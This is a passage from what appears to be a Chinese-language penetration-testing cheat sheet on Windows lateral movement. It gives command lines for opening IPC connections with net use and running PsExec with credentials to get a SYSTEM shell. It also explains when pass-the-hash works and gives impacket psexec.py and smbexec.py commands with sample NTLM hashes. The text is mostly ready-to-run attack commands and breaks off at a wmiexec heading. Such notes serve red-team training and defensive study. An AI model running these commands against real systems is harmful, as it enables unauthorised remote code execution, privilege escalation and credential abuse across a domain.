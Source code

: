 可先建立ipc连接再使用psexec无需输入密码
```
net use \\IP /u:domainname\username password
//建立IPC通道
psexec.exe \\192.168.10.2 -s cmd.exe -acceptcula
//反弹cmd
```

或者直接使用：
```
.\PsExec.exe \\192.168.10.201 -u domainname\username -p password -s cmd.exe -acceptcula
```

-accepteula：第一次运行psexec会弹出确认框，使用该参数就不会弹出确认框
-u：用户名
-p：密码
-s：以system权限运行运程进程，获得一个system权限的交互式shell。如果不使用该参数，会获得一个连接所用用户权限的shell


### PTH-哈希传递
> 利用条件
1、在工作组环境中：
Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
Windows Vista 之后的机器，只能是administrator用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问
2、在域环境中：
只能是域管理员组内用户(可以是域管理员组内非administrator用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器
如果要用普通域管理员账号进行哈希传递攻击，则需要修改修改目标机器的 LocalAccountTokenFilterPolicy为1

#### psexec.py-PTH
> 与官方psexec.exe相比会自动删除服务，增加隐蔽性

https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py

这里推荐使用impacket套装,有exe和py版本

```
psexec.exe domain/username@10.73.147.30 -hashes 624aac413795cdc1a5c7b1e00f780017:852a844adfce18f66009b4f14e0a98de
```

之后会弹回一个system权限的交互shell。

```
python psexec.py  administrator@10.73.147.29   -hashes 624aac413795cdc1a5c7b1e00f780017:852a844adfce18f66009b4f14e0a98de
```

这种方式方便我们直接通过代理在自己本机执行(py测试2003,但exe可以成功)

#### smbexec.py
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py
```
python smbexec.py ./:@192.168.52.136
```

#### wmiexec.py-PTH
